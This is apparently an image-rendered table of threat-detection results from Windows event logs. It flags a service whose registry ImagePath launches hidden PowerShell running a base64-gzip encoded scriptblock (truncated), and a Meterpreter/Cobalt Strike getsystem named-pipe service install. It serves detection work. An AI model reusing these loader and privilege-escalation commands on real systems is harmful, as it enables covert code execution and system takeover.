 	  │                     │                                │       │                                │          │           │                          │ v1.0\\powershell.exe'};$s=New-   │
	  │                     │                                │       │                                │          │           │                          │ Object System.Diagnostics.Proc   │
	  │                     │                                │       │                                │          │           │                          │ essStartInfo;$s.FileName=$b;$s   │
	  │                     │                                │       │                                │          │           │                          │ .Arguments='-noni -nop -w hidd   │
	  │                     │                                │       │                                │          │           │                          │ en -c &([scriptblock]::create(   │
	  │                     │                                │       │                                │          │           │                          │ (New-Object IO.StreamReader(Ne   │
	  │                     │                                │       │                                │          │           │                          │ w-Object IO.Compression.GzipSt   │
	  │                     │                                │       │                                │          │           │                          │ ream((New-Object IO.MemoryStre   │
	  │                     │                                │       │                                │          │           │                          │ am(,[Convert]::FromBase64Strin   │
	  │                     │                                │       │                                │          │           │                          │ g(''H4sIAIuvyFwCA7VW+2/aSBD+OZ   │
	  │                     │                                │       │                                │          │           │                          │ H6P1...                          │
	  │                     │                                │       │                                │          │           │                          │ (use --full to show all content) │
	  │                     │                                │       │                                │          │           │                          │ EventType: SetValue              │
	  │                     │                                │       │                                │          │           │                          │ Image: "C:\\Windows\\system32\   │
	  │                     │                                │       │                                │          │           │                          │ \services.exe"                   │
	  │                     │                                │       │                                │          │           │                          │ ProcessGuid: 365ABB72-2586-5CC   │
	  │                     │                                │       │                                │          │           │                          │ 9-0000-0010DC530000              │
	  │                     │                                │       │                                │          │           │                          │ ProcessId: 460                   │
	  │                     │                                │       │                                │          │           │                          │ RuleName: ""                     │
	  │                     │                                │       │                                │          │           │                          │ TargetObject: "HKLM\\System\\C   │
	  │                     │                                │       │                                │          │           │                          │ urrentControlSet\\services\\he   │
	  │                     │                                │       │                                │          │           │                          │ llo\\ImagePath"                  │
	  │                     │                                │       │                                │          │           │                          │ UtcTime: "2019-04-30 20:26:51.   │
	  │                     │                                │       │                                │          │           │                          │ 934"                             │
	  ├─────────────────────┼────────────────────────────────┼───────┼────────────────────────────────┼──────────┼───────────┼──────────────────────────┼──────────────────────────────────┤
	  │ 2019-05-12 12:52:43 │ ‣ Meterpreter or Cobalt        │ 1     │ Service Control Manager        │ 7045     │ 10446     │ IEWIN7                   │ ---                              │
	  │                     │ Strike Getsystem Service       │       │                                │          │           │                          │ AccountName: LocalSystem         │
	  │                     │ Installation                   │       │                                │          │           │                          │ ImagePath: "%COMSPEC% /c ping    │
	  │                     │                                │       │                                │          │           │                          │ -n 1 127.0.0.1 >nul && echo 'W   │
	  │                     │                                │       │                                │          │           │                          │ inPwnage' > \\\\.\\pipe\\WinPw   │
	  │                     │                                │       │                                │          │           │                          │ nagePipe"                        │
	  │                     │                                │       │                                │          │           │                          │ ServiceName: WinPwnage           │